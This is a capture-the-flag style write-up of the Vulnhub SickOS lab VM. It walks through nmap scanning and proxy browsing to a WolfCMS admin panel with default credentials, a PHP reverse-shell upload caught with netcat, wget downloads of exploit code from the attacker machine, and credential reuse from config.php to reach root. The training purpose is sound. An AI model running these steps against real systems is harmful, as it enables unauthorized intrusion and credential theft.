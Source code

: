 # Vulnhub SickOS 

**My SetUp**
- VMware Workstation Pro
- Kali: 172.16.126.129
- SickOS: 172.16.126.135

(I used NAT for both Machines)

## Nmap

`sudo nmap -vvv -sC -sV 172.16.126.135 -oA sickos`

![nmap](https://user-images.githubusercontent.com/76433661/152642864-d4d8492b-a383-4ce3-a47b-8953aae8d859.png)


Port 22, 3128, and 8080 seemed to be opened.

SSH is usually not worthit unless SSH version is severely outdated, so I decided to move on to port 3128 right away. 

## Checking out Port 3128

In order to check out port 3128 on web browser, little change with the browser network setting has to be made. (I used firefox)

![firefox_proxy_setup](https://user-images.githubusercontent.com/76433661/152642919-401787be-ea0f-4d78-be0c-928dcfb6fc74.png)

Browser has to go through proxy (port 3128) in order to access the page. 

![blehh](https://user-images.githubusercontent.com/76433661/152642953-584290dc-cdef-4845-8b82-8d76bba55bb8.png)

I could only see the ugly `blehhh` on the page so I tried looking for more directories. 

I always check out `robots.txt` first and it seemed like there is a page running `wolfcms`.

Now I moved to `172.16.126.135/wolfcms`.

![wolfcms](https://user-images.githubusercontent.com/76433661/152643029-11dd67b4-b782-499b-8248-8f34bc591b15.png)

Before searching for vulnerbilities for wolfcms, I wanted to see if there are more hidden directories, so I ran `dirb`.

Dirb needs to go through proxy so used the command below.

`dirb http://172.16.126.135/wolfcms -p 172.16.126.135:3128`

But nothing special showed up. 

After doing some researches, I decided to use exploit from [Arbitrary File Upload Vuln](https://www.exploit-db.com/exploits/38000).

I found out there is an admin page at `172.16.126.135/?/admin`.

![login](https://user-images.githubusercontent.com/76433661/152643116-c9dcd892-8369-4da1-b034-dc7e685c2816.png)

Even before trying bruteforcing, I tired `admin;admin` and it worked right away.

![main](https://user-images.githubusercontent.com/76433661/152643172-f65d45f7-c63a-46cf-bcfc-4012c788c053.png)

## Exploitation

Now that I am inside the system, only thing I need to do is to upload arbitrary PHP file, and capture the reverse shell with the nc command. 

I used [pentestmonkey php revershell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) to upload my code on the system.

And my Kali machine was waiting to capture the signal with the command `nc -lvp 1234`

After that, I went to PHP file link through browser using the following link `http://172.16.126.135/wolfcms/public/shell.php`.

Now I checked my kali terminal, and I had a shell popped open. 

![shell](https://user-images.githubusercontent.com/76433661/152643328-bd97c07c-0dfb-4923-b709-9a4e67290be9.png)

## Getting the root access

Now that I have a working shell, I need to gain root access. 

At first, I thought this is a privilege escalation problem so I researched lot about Kernel exploitation. I donwloaded two exploit from exploit-db.com, and copied the file over to `/tmp` folder using `python3 -m http.server` and `wget http://172.16.126.129:8000/exploit.c`.

However, after several tries, I found out I am stuck and moved on to different perspective.

I moved my directory to `/var/www/wolfcms` to see what information I can find. 

![ls_wolfcms](https://user-images.githubusercontent.com/76433661/152644770-c0ecb483-5b6a-46ef-aca9-01ec68447f41.png)

I took a look at `config.php` file, and there was mysql username and password. *findout the password and username byyouself*

Now that I have potential username and password, I tried `ssh`.

I first tried the username `root`, but it was not it, so I tired the username `sickos`, which worked out. 

![ssh](https://user-images.githubusercontent.com/76433661/152644825-81891229-0ae7-4973-a5f8-db0a728a75c0.png)

I changed the user by `sudo su root`

Moved my working directory to `/root` and found the flag. 

![end](https://user-images.githubusercontent.com/76433661/152644896-43482539-fcda-4920-b988-48db3dac8ea8.png)

## Further studies to be done
hydra bruteforce *how to hydra through proxy*

PHP code upload bypass methods ex) magic number, encoding, etc

What enumerations should I be doing at low-user status

nikto

Privilege Escalation ex) kernel exploitation, sudo , suid, etc

## Thoughts

This machine was marked as Easy machine, and it was indeed easy.

Although I got helped from several sources (not walkthroughs), it tooks me less then 4 hours to finish the machine. 

This is a well made boot2root box.

Rating 8/10

##### Notice
If any part of my writeup needs to be deleted or violates something, make a commit and I will make changes.

